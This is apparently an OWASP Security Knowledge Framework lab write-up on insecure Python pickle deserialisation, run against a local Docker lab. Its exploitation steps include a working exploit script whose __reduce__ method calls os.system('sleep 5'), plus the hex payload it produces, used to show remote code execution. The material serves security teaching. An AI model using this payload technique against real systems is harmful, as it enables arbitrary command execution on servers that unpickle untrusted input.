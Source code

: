 # KBID 271 - Deserialisation Pickle-1

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution.

Some use cases for python pickle: 1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence) 2) sending python data over a TCP connection in a multi-core or distributed system (marshalling) 3) storing python objects in a database 4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and check how it works.

![](.gitbook/assets/DESPickle1\_1.png)

The user flow is very simple. The application is expecting a Pickle Serialized object for internal processing and, as expected, the deserialization is done in a unsafe way.

From wikipedia: The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

The goal is to achieve Remote Code Execution through this weakness.

## Exploitation

### Step 1

Press F12 on the browser, to open the Developer Toolbar.Click on the Network tab.

![](.gitbook/assets/DESPickle1\_2.png)

### Step 2

Open the challenge folder, _DES-Pickle_, and open the _exploit.py_ file in a text editor.

```python
import pickle
import os
import base64
import binascii 


"""
Pickle is a python package used to 'serialize' an object to string format and store them to or load from a file.
Pickle is a simple stack language, which means pickle has a variable stack.
Every time it finished 'deserializing' an object it stores it on the stack.
Every time it reaches a '.' while 'deserializing', it pop a variable from the stack.
Besides, pickle has a temperary memo, like a clipboard.
'p0', 'p1' means put the top obj on the stack to memo and refer it as '0' or '1'
'g0', 'g1' act as get obj '0' or '1'
"""

class RunBinSh(object):
  def __reduce__(self):
    return (os.system,('sleep 5',))

print(binascii.hexlify(pickle.dumps(RunBinSh())))
```

This code creates a Pickle serialized object of _os.system_ call passing _sleep 5_ as argument. The unserialization of this class should lead the system to sleep for 5 seconds.

Let's run the exploit and see the output:

```bash
python3 exploit.py

b'80049522000000000000008c05706f736978948c0673797374656d9493948c07736c656570203594859452942e'
```

_Note: Running the exploit script on Windows 10 might generate a invalid results. The one generated above can be used._

### Step 3

Copy the output of previous step, paste it on the text field and click on _Submit Button_.

![](.gitbook/assets/DESPickle1\_3.png)

Check the Network tab and note the _sync_ request takes approximately 5 seconds to respond. It proves that the _sleep 5_ command was executed successfully and the Remote Code Execution was achieved.

![](.gitbook/assets/DESPickle1\_4.png)

## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" %}
